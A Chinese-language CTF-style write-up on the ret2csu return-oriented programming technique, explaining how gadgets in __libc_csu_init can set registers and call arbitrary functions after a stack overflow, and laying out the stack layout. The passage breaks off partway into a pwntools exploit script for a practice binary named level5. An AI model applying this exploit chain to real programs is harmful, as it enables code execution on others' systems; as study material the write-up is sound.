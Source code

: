 
可以有以下点可以利用：

- `0x40072a` - `0x400732`

此处可以对`rbx`、`rbp`、`r12`、`r13`、`r14`、`r15`进行赋值并`ret`。为方便下面描述，这里称为过程1。

- `0x400710` - `0x400719`

此处有两个操作

一是使用`r13->rdx`，`r14->rsi`，`r15d->rdi`。 （给`edi`赋值时，`rdi`高位自动置零）

二是通过`r12 + rbx*8`实现任意函数调用。

这里称为过程2。

- `0x40071d` - `0x400724`

首先这里是过程2的后面。当`rbp = rbx + 1`时，函数继续执行到过程1。这里称为过程3。



从上面看出，我们可以通过以下流程来进行：

我们通过溢出到过程1，对寄存器进行赋值。由于最后有`ret`，继续执行栈上的内容。

栈上构造过程2。相当于过程1中，按照顺序是给寄存器`rbx`、`rbp`、`r12`、`rdx`、`rsi`、`edi`赋值。

那么设置`rbp = 1`，`rbx = 0`，满足过程3的条件，因此过程2执行完成后，会再次执行过程1（再次执行过程1只是为了接下来的`ret`，所以中间的部分直接填充了）。

过程2中执行任意函数地址为`r12`。这个函数的参数同样是最开始过程1中所控制的。



因此，我们可以设置如下栈：

high address     |  函数第一个参数 |  （只有低三十二位）

​                            |  函数第二个参数 |

​                            |  函数第三个参数 |

​                            |  要执行的函数的地址  |

​                            |  1  |

low address       |  0  |



在找到栈溢出点时，先溢出到过程1，过程1的栈如上所示，再溢出到过程2，即可通过上述栈完成任意函数执行。



来个`wiki`的`exp`：

```python
from pwn import *
from LibcSearcher import LibcSearcher

#context.log_level = 'debug'

level5 = ELF('./level5')
sh = process('./level5')

write_got = level5.got['write']
read_got = level5.got['read']
main_addr = level5.symbols['main']
bss_base = level5.bss()
csu_front_addr = 0x0000000000400600
csu_end_addr = 0x000000000040061A
fakeebp = 'b' * 8


def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
```